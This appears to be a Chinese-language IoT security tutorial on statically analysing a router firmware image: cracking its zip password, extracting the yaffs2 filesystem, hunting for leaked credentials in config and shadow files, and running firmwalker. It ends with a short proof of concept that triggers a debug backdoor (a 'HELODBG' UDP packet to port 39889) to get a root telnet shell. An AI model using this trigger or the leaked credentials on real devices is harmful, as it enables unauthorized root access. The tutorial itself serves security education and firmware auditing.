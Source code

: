 # 静态分析 IoT 固件

得到固件后，若直接打开，会发现该固件被加了密，无法直接解压缩，这是厂商对该固件做了保护，防止大家逆向分析他的固件。

![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/1.png)

通过frackzip工具可以破解该zip的密码，时间要挺久的，我直接告诉你吧，密码是beUT9Z。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/2.png)

解压后发现文件夹中有多个.yaffs2后缀的文件，这些都是固件的文件。
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/3.png)

yaffs2里有几个看上去是recovery的镜像，核心的应该是2K-mdm-image-mdm9625.yaffs2 ，我们下面就来提取该文件，我首先用binwalk来提取它，但提取出来的文件乱七八糟，不知道什么原因，后来看网上推荐直接用yaffs的原生工具unyaffs提取，就可以了，文件系统清晰明了。
```
unyaffs 2K-mdm-image-mdm9625.yaffs2 yaffs2-root/
```
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/4.png)


接下来我们查找该路径下的所有.conf文件，.conf文件多是配置文件，有可能从中可以发现敏感的信息。
```
find . -name '*.conf'
```
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/5.png)

其中的inadyn-mt.conf文件引起了我们注意，这是no-ip应用的配置文件，no-ip就是一个相当于花生壳的东西，可以申请动态域名。我们从中可以发现泄露的no-ip的登陆账号及密码。
```
cat etc/inadyn-mt.conf
```
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/6.png)

除了上述泄露的no-ip账号密码，我们还从shadow文件中找到了root账号的密码，通过爆破可以得到root的密码为1234。
```
cat ~/yaffs2-root/etc/shadow
```
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/7.png)

其实并不止有.conf文件会泄露信息，还有很多其他后缀的敏感文件会泄露信息，我们接下来使用firmwalker工具来自动化遍历该固件系统中的所有可疑文件。
```
git clone https://github.com/craigz28/firmwalker.git
```
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/8.png)

命令如下，firmwalker会将结果保存到firmwalker.txt。
```
./firmwalker.sh ~/yaffs2-root/
```
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/9.png)

看了下该工具的源码，没啥亮点，就是遍历各种后缀的文件。
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/10.png)

后缀都在data文件夹中的各个配置文件中。
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/11.png)

分析完敏感的配置文件后，我们接下来分析存在风险的二进制程序。查看自启动的程序，一个start_appmgr脚本引起了我们注意，mgr一般就是主控程序的意思。
![12](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/12.png)

该脚本会在开机的时候以服务的形式运行/bin.appmgr程序。
![13](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/13.png)

通过IDA进行反编译，在main函数中发现了一个管理员当时为了方便调试留下的后门，只要连接该固件的39889端口并发送HELODBG的字符串，就可以进行远程执行命令。
![14](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-%E5%88%86%E6%9E%90IoT%E5%9B%BA%E4%BB%B6/14.png)

POC如下：

```
user@kali:~$ echo -ne "HELODBG" | nc -u 192.168.1.1 39889 
Hello 
^C 
user@kali:~$ telnet 192.168.1.1 
Trying 192.168.1.1... 
Connected to 192.168.1.1. Escape character is '^]'.   
OpenEmbedded Linux homerouter.cpe     
msm 20141210 homerouter.cpe   
/ # 
id uid=0(root) gid=0(root) 
/ # 
exit 
Connection closed by foreign host. 
user@kali:~$
```

除了以上这些，该固件还存在多个漏洞，详细的报告可以参考：
```
https://www.anquanke.com/post/id/84671
```
